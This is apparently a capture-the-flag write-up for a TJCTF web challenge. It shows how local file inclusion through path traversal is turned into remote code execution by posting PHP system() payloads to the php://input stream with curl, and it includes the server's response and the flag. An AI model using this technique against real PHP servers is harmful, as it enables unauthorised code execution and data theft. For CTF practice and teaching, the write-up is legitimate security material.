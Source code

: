 **FILE VIEWER** 


**Category:** Web
**Concepts:** php, input streams, lfi, rce

**Problem Statement:**
So I've been developing this really cool [site](https://file_viewer.tjctf.org/) where you can read text files! It's still in beta mode, though, so there's only six files you can read.

**Hints**
The flag is in one directory somewhere on the server, all you have to do is find it...Oh wait. You don't have a shell, do you?


![image](../images/fv1.png)

The website immediately gives away LFI through path traversal (PoC: /etc/passwd). Running fimap over the website revealed that no logs were accessible, so log poisoning to get a reverse shell was not possible. But, fimap said `php://input` stream was open(which took me wayy too long to realize). So, I poisoned a txt file with some php code and posted to `https://file_viewer.tjctf.org/reader.php?file=php://input`.

`curl -d "@payload.txt" -X POST https://file_viewer.tjctf.org/reader.php?file=php://input`

payload.txt(PoC): `<?php system("php -r 'phpinfo();'"); ?>`
payload.txt: `<?php system('more i_wonder_whats_in_here/flag.php'); ?>`

Response:
```console
<html>
    <head>
        <style type="text/css">
            .main {
            text-align: center;
            font-family: monospace;
            font-size: 30px;
            border: 3px solid blue;
            border-radius: 8px;
            position:absolute;
            top: 50%;
            left: 50%;
            transform: translate(-50%, -50%);
            }
            .main p {
                color: blue;
            }
            .main input {
            /* outline:none; */
            width: 100%;
            padding: 12px 20px;
            margin: 15px 0;
            display: inline-block;
            border: 3px solid blue;
            color:blue;
            border-radius: 8px;
            box-sizing: border-box;
            -webkit-transition-duration:0.4s;
            }
            .main input:focus {
            background-color: blue;
            color: white
            }
            input:focus::-webkit-input-placeholder
            {
                color: white;
            }
            .main button {
            color: blue;
            background-color: white;
            transition-duration:0.4s;
            font-size: 40px;
            font-family: monospace;
            border: 3px solid blue;
            border-radius: 8px;
            -webkit-transition-duration:0.4s;
            }
            .main ::placeholder {
            color: blue;
            transition-duration:0.4s;
            font-size: 15px;
            font-family: monospace;
            -webkit-transition-duration:0.4s;
            }
            .main .hidden {
            visibility:hidden;
            font-size:2px;
            }
            .main button:hover {
            color: white;
            background-color: blue
            }
            form {
                display: block;
                margin-top: 0em;
                margin-block-end: 0em;
            }
            h5 {
                display: block;
                font-size: 0.83em;
                margin-block-start: 0.6em;
                margin-block-end: 0.6em;
                margin-inline-start: 0px;
                margin-inline-end: 0px;
                font-weight: bold;
            }
        </style>
        <title>File Viewer</title>
    </head>
    <body>
        <fieldset class="main">
            <p> <strong>
                ::::::::::::::
i_wonder_whats_in_here/flag.php
::::::::::::::
<?php
    // tjctf{n1c3_j0b_with_lf1_2_rc3}
?>
            </strong></p>
        </fieldset>
    </body>
</html>
```

**FLAG:** tjctf{n1c3_j0b_with_lf1_2_rc3}


